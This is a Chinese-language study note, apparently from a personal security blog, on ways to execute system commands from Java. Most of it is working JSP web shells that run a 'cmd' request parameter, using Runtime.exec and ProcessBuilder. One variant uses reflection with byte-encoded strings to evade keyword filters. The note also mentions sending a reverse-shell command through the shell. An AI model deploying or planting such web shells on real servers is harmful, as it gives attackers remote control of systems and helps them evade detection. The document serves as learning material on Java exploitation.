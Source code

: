 # 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可
![image-20220723194743188](本地命令执行.images/image-20220723194743188-8576868.png)

修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```

![image-20220723212513757](本地命令执行.images/image-20220723212513757.png)

分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下：

```
java.lang.UNIXProcess.<init>																				[UNIXProcess.java]
java.lang.ProcessImpl.start																					[ProcessImpl.java]
java.lang.ProcessBuilder.start[ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)	[Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)			[Runtime.java]
java.lang.Runtime.exec(String command)															[Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService										[runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```

![image-20220727184018164](本地命令执行.images/image-20220727184018164.png)

## 待更新

同理，`exec()`方法也调用了`UNIXProcess`和`ProcessImpl`，也可以通过调用它们来执行系统命令。目前底蕴不足，阅读源码有点困难，日后学习积累再更新。